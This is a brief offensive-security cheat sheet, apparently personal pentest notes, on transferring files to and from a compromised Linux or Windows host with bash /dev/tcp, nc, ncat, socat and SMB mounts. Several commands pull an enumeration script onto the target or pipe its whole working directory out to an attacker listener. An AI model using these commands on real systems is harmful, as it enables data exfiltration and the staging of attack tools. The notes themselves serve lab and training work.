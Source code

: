 # Linux File Transfers


## Bash 

Check `mount` if /`dev/shm/` has `no exec`, this is just an example
```bash
# Use nc to serve the file
nc -lvnp 80 < LinEnum.sh
# Target machine
mount | grep shm
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## Netcat

[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat

Use [[Socat]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```


## SMB Cif-Utils

```shell
sudo mount -t cifs -o 'user=$username,password=$password' //$IP/share /mnt/sharename
```

[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)
